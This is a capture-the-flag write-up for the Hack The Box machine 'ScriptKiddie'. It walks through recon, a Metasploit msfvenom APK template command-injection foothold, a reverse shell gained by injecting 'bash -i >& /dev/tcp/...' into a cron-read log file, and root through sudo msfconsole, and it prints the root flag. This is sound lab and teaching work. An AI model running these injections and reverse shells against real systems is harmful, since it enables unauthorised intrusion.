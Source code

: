 ```yaml
---                                                                                                                                  
title: Hackthebox - ScriptKiddie                                                                                                             
image: /assets/img/htb-scriptkiddie/htb-scriptkiddie-info.png                                                                        
date: 2021-06-05                                                                                                                      
categories: [Hackthebox]                                                                                                               
tags: [linux, metasploit, bash, nmap, apk]     
show: "Scriptkiddie as the name suggests is a linux machine which hosts hacker tools for scanning and generating payloads. It begins by finidng metasploit vulnerability to gain foothold on the machine. There is a cronjob in the machine that is running a bash script. We take advantage of this script to gain a reverse shell as the user. The pwned user is able to run metasploit with superuser privileges which we execute bash to gain root access."
---
```


# Summary
Scriptkiddie as the name suggests is a linux machine which hosts hacker tools for scanning and generating payloads. It begins by finidng metasploit vulnerability to gain foothold on the machine. There is a cronjob in the machine that is running a bash script. We take advantage of this script to gain a reverse shell as the user. The pwned user is able to run metasploit with superuser privileges which we execute bash to gain root access.

# Recon

## Nmap
Nmap finds two open TCP ports, SSH (22) and HTTP (5000):
```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# nmap -sC -sV -oN nmap/scriptkiddie 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 21:35 EDT
Nmap scan report for 10.10.10.226
Host is up (0.28s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds
```
Based on nmap result, the target is likely running Ubuntu Focal.

## Webserver - TCP 80
The webserver is hosting 3 services:
- scanning using nmap
- generating metasploit payloads 
- searching exploits using searchsploits

![](htb-scriptkiddie/2021-06-04-21-49-09.png)

I conducted directory bruteforce but did not find any hidden files. I also went through the source code of the website and nothing stood out for me.

I tried to escape the nmap command by using bash special characters like ```; and &&``` but they all displayed the error below.

![](htb-scriptkiddie/2021-06-04-22-00-03.png)

The webserver is using [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate payloads. In the dropdown, there are ```windows, linux and android``` options to choose from and an optional template file attachments. 

![](htb-scriptkiddie/2021-06-04-22-04-01.png)

Googling ```metasploit template vulnerability``` returns [Metasploit Framework msfvenom APK Template Command Injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) vulnerability.

![](/assets/img/htb-scriptkiddie/2021-06-04-22-15-12.png)

# Exploitation
## Foothold
There are a multiple proof of concept payloads for the metasploit template vulnerability. I generated the ```.apk``` payload using msfconsole:

```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# msfconsole -q   
msf6 > search metasploit template

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/multi/http/jira_hipchat_template                                2015-10-28       excellent  Yes    Atlassian HipChat for Jira Plugin Velocity Template Injection
   1  exploit/unix/webapp/datalife_preview_exec                               2013-01-28       excellent  Yes    DataLife Engine preview.php PHP Code Injection
   2  exploit/windows/fileformat/mcafee_showreport_exec                       2012-01-12       normal     No     McAfee SaaS MyCioScan ShowReport Remote Command Execution
   3  exploit/windows/http/exchange_ecp_dlp_policy                            2021-01-12       excellent  Yes    Microsoft Exchange Server DlpUtils AddTenantDlpPolicy RCE
   4  auxiliary/gather/oats_downloadservlet_traversal                         2019-04-16       normal     Yes    Oracle Application Testing Suite Post-Auth DownloadServlet Directory Traversal
   5  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection
msf6 > use 5
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lhost tun0
lhost => tun0
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set lport 9001
lport => 9001
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk
```
The ```msf.apk``` payload was saved in ```/root/.msf4/local/msf.apk``` directory. 

I started listening on port 9001 on my kali machine and uploaded the ```msf.apk``` file. 

![](/assets/img/htb-scriptkiddie/2021-06-04-22-36-21.png)

# Privilege Escelation

## User Privesc
I landed on the target as ```kid``` user. There was another user ```pwn``` in the system. 
I the home directory of ```kid``` user, there is a bash script ```scanloser.sh``` and the following bash script:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```
The script does the following:
- It specifies ```log``` variable as ```/home/kid/logs/hackers```
- it gets the content of ```/home/kid/logs/hackers```, splits on space and grabs everything beyond 3rd column
- It then executes ```nmap``` on it

In order to abuse this script, we have to insert 3 spaces before our payload. i.e

```bash
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# cat test.txt                 
1 2 3 4 5 6 7 8 9
                                                                                                                                       
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# cat test.txt | cut -d' ' -f3- 
3 4 5 6 7 8 9
                                                                                                                                       
┌──10.10.16.40(root💀kali)-[~/htb/boxes/scriptkiddie]
└─# 
```
I inserted below line to ```/home/kid/logs/hackers``` in order obtain reverse a shell as ```pwn``` user

```bash
echo -n "   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.40/9001 0>&1';" > /home/kid/logs/hackers
```
The above line has 3 spaces before ```;```. I used ```echo -n``` option to avoid the trailing line.

Received reverse shell as ```pwn``` user.

![](/assets/img/htb-scriptkiddie/2021-06-04-23-24-36.png)

## Root Privesc
The user ```pwn``` can execute ```/opt/metasploit-framework-6.0.9/msfconsole``` with superuser privilege.

Metasploit can execute command with option ```-x```. ```-q``` is to ignore metasploit banner from displayed.

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x bash
[*] exec: bash

root@scriptkiddie:/home/pwn# whoami
root
root@scriptkiddie:/home/pwn# cat /root/root.txt 
5b6cdaf092a4be80da48835068553ae7
root@scriptkiddie:/home/pwn# 
```

![](htb-scriptkiddie/2021-06-04-23-27-10.png)
